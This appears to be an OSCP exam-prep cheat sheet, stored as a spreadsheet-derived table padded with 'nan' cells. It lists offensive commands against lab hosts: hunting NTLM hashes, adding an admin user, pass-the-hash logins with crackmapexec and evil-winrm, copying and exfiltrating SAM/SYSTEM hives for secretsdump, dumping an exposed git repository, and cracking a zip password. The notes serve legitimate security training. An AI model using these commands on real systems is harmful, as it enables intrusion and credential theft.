 # OSCP-A

|   Unnamed: 0 |   Unnamed: 1 |   Unnamed: 2 |   Unnamed: 3 | Unnamed: 4                                                                                                    |   Unnamed: 5 |   Unnamed: 6 |   Unnamed: 7 |   Unnamed: 8 | Unnamed: 9                                    |
|-------------:|-------------:|-------------:|-------------:|:--------------------------------------------------------------------------------------------------------------|-------------:|-------------:|-------------:|-------------:|:----------------------------------------------|
|          nan |          nan |          nan |          nan | nan                                                                                                           |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                                                           |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                                                           |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | Command                                                                                                       |          nan |          nan |          nan |          nan | Descripton                                    |
|          nan |          nan |          nan |          nan | Select-String -Path "fileMonitorBackup.log" -Pattern '\b[a-fA-F0-9]{32}\b'                                    |          nan |          nan |          nan |          nan | Search for ntlm hashes in log file            |
|          nan |          nan |          nan |          nan | Add-LocalGroupMember -Group "Administrators" -Member "Eric.Wallows"                                           |          nan |          nan |          nan |          nan | add user to admin group (local)               |
|          nan |          nan |          nan |          nan | net localgroup Administrators Eric.Wallows /add                                                               |          nan |          nan |          nan |          nan | add user to admin group (local)               |
|          nan |          nan |          nan |          nan | crackmapexec winrm 10.10.99.141 -u celia.almeda -d oscp.exam -H e728ecbadfb02f51ce8eed753f3ff3fd -x whoami    |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | evil-winrm -i 10.10.99.142 -u "celia.almeda" -H e728ecbadfb02f51ce8eed753f3ff3fd                              |          nan |          nan |          nan |          nan | Using evil-winrm with a hash                  |
|          nan |          nan |          nan |          nan | nan                                                                                                           |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | Dumping the SAM                                                                                               |          nan |          nan |          nan |          nan | Descripton                                    |
|          nan |          nan |          nan |          nan | C:\Users\celia.almeda\Desktop> copy "C:\windows.old\Windows\system32\SAM" "$env:USERPROFILE\Desktop\sam.save" |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | copy "C:\windows.old\Windows\system32\SYSTEM" "$env:USERPROFILE\Desktop\system.save"                          |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | download sam.save                                                                                             |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | download system.save                                                                                          |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | impacket-secretsdump -sam sam.save -system system.save LOCAL                                                  |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                                                           |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                                                           |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | Get-ChildItem -Path C:\Users -Filter "proof.txt" -Recurse -ErrorAction SilentlyContinue                       |          nan |          nan |          nan |          nan | Find the flag                                 |
|          nan |          nan |          nan |          nan | find / -name "proof.txt" 2>/dev/null                                                                          |          nan |          nan |          nan |          nan | Find the proof flag                           |
|          nan |          nan |          nan |          nan | systeminfo | findstr /B /C:"Domain"                                                                           |          nan |          nan |          nan |          nan | Check if I belong to a domain                 |
|          nan |          nan |          nan |          nan | echo %USERDOMAIN%                                                                                             |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                                                           |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                                                           |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | gitdumper                                                                                                     |          nan |          nan |          nan |          nan | Descripton                                    |
|          nan |          nan |          nan |          nan | python3 git_dumper.py http://192.168.111.144/ DIR                                                             |          nan |          nan |          nan |          nan | Get a git directory from the website          |
|          nan |          nan |          nan |          nan | git log                                                                                                       |          nan |          nan |          nan |          nan | See git history by git log                    |
|          nan |          nan |          nan |          nan | git show 44a055daf7a0cd777f28f444c0d29ddf3ff08c54                                                             |          nan |          nan |          nan |          nan | (In the git directory) Show a specific commit |
|          nan |          nan |          nan |          nan | nan                                                                                                           |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt sitebackup1.zip                                        |          nan |          nan |          nan |          nan | Crack a zip password protected                |

